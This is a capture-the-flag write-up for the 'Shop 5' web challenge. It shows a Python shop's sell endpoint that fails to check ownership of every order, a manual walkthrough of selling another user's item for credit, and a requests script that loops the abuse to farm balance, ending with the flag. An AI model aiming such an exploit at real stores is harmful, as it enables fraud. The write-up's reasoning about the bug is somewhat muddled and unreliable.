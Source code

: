 # Shop 5 writeup
###### Author/Solved by: Tinius
###### Team: Datasnok

## Challenge description
```text
Shop 5 
by null

It appears that PHP was not the solution after all, so we switched to the much
more modern and secure Python language.
Fortunatly, using modern frameworks also guarantees that our application is fully secure!

If you should manage, somehow to buy the new exclusive EPT fidget toy merchandise,
you can claim 5 physical instances at the admin booth after you have bought the
toy in the shop and submitted the flag on the platform!
```

## Initial thoughts
The difference from shop 4 to shop 5 is that you can sell multiple items at once:
![img.png](img/img.png)

The request when selling an item:
![img_1.png](img/img_1.png)

This tells me that I should take a closer look at how we can refund the items since it is the only noticeable difference.

## Looking at the code
```python
@app.post("/orders")
async def sell(request: Request, session: SessionDep, order_ids: list[int] = Form(...)):
    user, _ = get_user(request, session)
    if not user:
        return RedirectResponse(url="/login?error=Please log in to sell items", status_code=303)
    order_ids = list(set(order_ids))
    for sell_order in list(stream_sell_orders(session, [session.get(Order, order_id) for order_id in order_ids])):
        if not sell_order(user):
            return await orders(request, error="Failed to sell all orders", session=session)

    return await orders(request, success="Items sold successfully", session=session)
```
We can see that we create a generator with `stream_sell_orders` and then we iterate over it. This means that we can return multiple functions that can be called later on. This is a very interesting approach and I have not seen this before.
```python
def stream_sell_orders(session: Session, orders: list[Order]):
    for order in orders:

        def sell_order(user: User):
            if not order or order.user_id != user.id:
                return False
            item = session.get(Item, order.item_id)
            user.balance += item.price
            session.delete(order)
            session.commit()
            return True

        yield sell_order
```
This is some muffins, because why would you code it like this and not something simpler and better. 

At first I tried to sell the same item twice:
![img_2.png](img/img_2.png)
Which gives:
![img_3.png](img/img_3.png)

We can see that we sold one item and got the money back. But only for one item.

## Why it is insecure
The code is insecure because it only checks each order individually. If you send an order that belongs to someone else first, the sell_order might process it incorrectly before checking your own orders. This can let you add money from another user’s item to your balance. There's no proper transaction handling to ensure all orders belong to you before making any changes. As a result, you can manipulate the order of requests to exploit the system and gain unauthorized funds.

## Exploiting

1. Create a second user and buy an item.
### Snok2 user:
![img_4.png](img/img_4.png)

### Snok1 user:
![img_5.png](img/img_5.png)

We can see that Snok1 has an item with id 1 so lets sell that first in the list from Snok2

As snok2:

![img_6.png](img/img_6.png)

Now we can see the balance of snok2 increased by 99.99

![img_7.png](img/img_7.png)

## Automating
Doing that a gazillion times to get 2500 is not fun so lets automate it:

```python
import requests

base_url = "https://datasnok-ec5c-shop-5.ept.gg/"

cookies = {
    'token': 'ac0eec4beab1b5d08ed174ce2929e4be',
}


def buy_item(item_id: int):
    response = requests.post(base_url, cookies=cookies, data={"item_id": item_id})
    if response.status_code == 200:
        print("Item purchased successfully")
    else:
        print("Failed to purchase item")


def sell_item():
    data = [
        ('order_ids', '1'),
        ('order_ids', '2'),
    ]
    requests.post(base_url+'orders', cookies=cookies, data=data)


for x in range(40):
    buy_item(1)
    sell_item()

```
After running the script we have enough money to buy the flag:

![img_8.png](img/img_8.png)

## Flag

![img_9.png](img/img_9.png)

```text
EPT{G0in6_1n_l0ops_to0_f45t_m4k3s_m3_d1zzy}
```